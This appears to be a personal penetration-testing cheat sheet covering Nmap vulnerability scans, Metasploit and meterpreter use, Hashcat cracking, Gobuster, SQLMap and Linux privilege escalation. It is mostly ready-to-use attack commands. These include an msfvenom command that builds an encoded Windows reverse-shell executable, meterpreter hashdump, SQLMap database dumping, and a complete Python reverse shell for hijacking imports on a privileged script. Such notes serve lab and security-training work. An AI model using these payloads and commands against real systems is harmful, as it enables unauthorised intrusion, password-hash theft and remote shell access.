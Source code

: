 
## General Linux stuff


### path_poisoning

`export PATH=<directory_with_poison>:$PATH`

### SUDO

#### Check what commands can be run as sudo

`sudo -l`

#### Running commands as other users with sudo

`sudo -u <user> <command>`

## Nmap

### Check for vulns with scan

```nmap -sV -vv --script="vuln" <ip>```

### Enumerate SMB shares

```nmap -p <port> --script=smb-enum-shares.nse,smb-enum-users.nse <ip>```

### List mounts available on a NFS

```nmap -p <port> --script=nfs-ls,nfs-statfs,nfs-showmount <ip>```


## Metasploit

### Start Metasploit

```msfconsole -q```

### List sessions

```sessions```

### Search for and use module from nmap vuln scan

```search <vuln>```

```use <index>```

### Change reverse shell to metapreter shell

```use post/multi/manage/shell_to_metapreter```

```set session <session id of shell>```

Change to metapreter session:

```sessions -i <session id>```

#### Useful metapreter commands

```shell``` - Gain interactive shell on target box

```hashdump``` - Dump password hashes of users

```upload <src file> <dst file>``` - Upload file to target

```download <src file> <dst file>``` - Download file from target

```sysinfo``` - Get info on target box

```execute -f <file>``` - Execute file on target box

### Generate reverse shell as windows executable

```msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o <.exe>```

## Hashcat

### Identify Hash

```hash-identifier <hash>```

### Common hash types

```text
900   | MD4                                              | Raw Hash
0     | MD5                                              | Raw Hash
100   | SHA1                                             | Raw Hash
1300  | SHA2-224                                         | Raw Hash
1400  | SHA2-256                                         | Raw Hash
10800 | SHA2-384                                         | Raw Hash
1700  | SHA2-512                                         | Raw Hash
17300 | SHA3-224                                         | Raw Hash
17400 | SHA3-256                                         | Raw Hash
17500 | SHA3-384                                         | Raw Hash
17600 | SHA3-512                                         | Raw Hash
6000  | RIPEMD-160                                       | Raw Hash
600   | BLAKE2b-512                                      | Raw Hash
11700 | GOST R 34.11-2012 (Streebog) 256-bit, big-endian | Raw Hash
11800 | GOST R 34.11-2012 (Streebog) 512-bit, big-endian | Raw Hash
6900  | GOST R 34.11-94                                  | Raw Hash
5100  | Half MD5                                         | Raw Hash
18700 | Java Object hashCode()                           | Raw Hash
17700 | Keccak-224                                       | Raw Hash
17800 | Keccak-256                                       | Raw Hash
17900 | Keccak-384                                       | Raw Hash
18000 | Keccak-512                                       | Raw Hash
21400 | sha256(sha256_bin($pass))                        | Raw Hash
6100  | Whirlpool                                        | Raw Hash
10100 | SipHash                                          | Raw Hash
21000 | BitShares v0.x - sha512(sha512_bin(pass))        | Raw Hash
```

### Crack MD5 hash with rockyou

```hashcat -a 0 -m 0 <hash/hashfile> /usr/share/wordlists/rockyou.txt --show```

## Gobuster

### List directories and files

```gobuster dir -u http://<ip>:<port> -w <wordlist> -x <file types>```

## SQLMap

### Discover database names

```sqlmap -r <request file> --dbs```

### Show tables in database

```sqlmap -r <request file> -D <database name> --tables```

### Enum table in database

```sqlmap -r <request file> -D <database name> -T <table name> --dump```

## Windows

### Stop a service

```sc stop <service name>```

### Start a service

```sc start <service name>```

## Useful python stuff

### Hijacking imports

If a target has a python file with elevated privs that imports files, we can create a new file (contents below) with the name of the imported file to get a shell as whoever has the privs for the file.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<host>",<port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```